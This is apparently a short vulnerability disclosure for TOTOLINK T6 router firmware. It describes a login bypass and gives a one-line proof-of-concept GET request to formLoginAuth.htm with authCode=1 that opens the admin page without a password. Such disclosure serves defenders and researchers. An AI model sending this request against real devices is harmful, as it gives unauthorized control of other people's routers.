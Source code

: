 # TOTOLINK T6 Vulnerability
---
-   Vendor: TOTOLINK
-   Product: T6
-   Version: T6 V3_Firmware - V4.1.5cu.748_B20211015
-   Vuln Type: formAuthLogin bypass    
-   Author: c0nyy, Reisen_1943    

### Vulnerability description:

---
 - This vulnerability allows remote attackers to access the admin page without a password by manipulating the **authCode** parameter to **1** and setting the **goURL** parameter to **home.html**.
 - PoC: **GET /formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login HTTP/1.1**

![POC_T6](https://github.com/user-attachments/assets/b2ac74e0-a887-4777-9b13-d0830a6655d0)
